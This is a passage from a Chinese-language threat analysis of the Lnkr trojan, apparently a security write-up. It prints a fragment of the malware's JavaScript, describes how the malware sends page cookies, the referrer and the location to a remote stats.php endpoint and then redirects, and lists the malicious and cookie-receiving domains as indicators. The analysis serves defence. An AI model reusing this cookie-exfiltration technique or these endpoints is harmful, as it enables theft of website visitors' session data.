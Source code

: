 ```
                n()
            `}` (resp);
        `}`

        function onSuccessCallback(response) `{`
            if (response &amp;&amp; response.indexOf('http') &gt; -1) `{`
                bl(response);
            `}`
        `}`
        minAjax(config);
    `}`
`}`)();
```

该文件是真正实现恶意行为的代码，这部分代码没有经过混淆、加密，也没有加入其他无意义的代码干扰分析，可以很清晰地看到其恶意行为：
1. 获取当前页面Cookie，ck参数；
1. 获取当前页面Referrer；
1. 获取当前页面Location；
1. 使用XMLHttpRequest将获取到的数据发送到：
1. http://press.cdncontentdelivery.com/f/stats.php；
1. 利用onSuccessCallback方法进行跳转。
至此实现了将Cookie发送到远端接收地址，后续通过onSuccessCallback返回内容完成跳转，完整流程：

[![](https://p4.ssl.qhimg.com/t016eb82480c1bfd75e.png)](https://p4.ssl.qhimg.com/t016eb82480c1bfd75e.png)

### ****2.4  通过已发现的IoC深入排查****

通过上述特征，发现大量与Lnkr木马相关的域名和插件，部分并未出现在已知的威胁情报中，经进一步分析发现，移动终端设备也有触发恶意请求的情况。

除此之外我们也发现国内多个大型站点在自身引用资源上引入了Lnkr木马，用户如果访问到这些站点，Cookie信息会被直接发送到远端，存在极高的安全风险。针对站点自身存在恶意资源的这类情况，极有可能是攻击者利用Broken Link Hijacking的攻击手法，对过期域名进行抢注，站点在访问原有资源时被劫持到恶意资源。



## 三、总结

### ****3.1  恶意域名****

以下列举了此次检测发现的恶意域名：
1. mirextpro.com
1. browfileext.com
1. nextextlink.com
1. lisegreen.biz
1. makesure.biz
1. clipsold.com
1. comtakelink.xyz
1. protesidenext.com
1. promfflinkdev.com
1. rayanplug.xyz
1. countsource.cool
1. blancfox.com
1. skipush1.bbn.com.cn
1. donewrork.org
1. loungesrc.net
1. higedev.cool
1. s3.amazonaws.com/cashe-js/
1. s3.amazonaws.com/js-cache/
1. s3.amazonaws.com/jsfile/
1. s3.amazonaws.com/cashe-js/
1. cdngateway.net (接收Cookie域名)
1. sslproviders.net (接收Cookie域名)
1. cdncontentdelivery.com (接收Cookie域名)
### ****3.2  恶意插件****
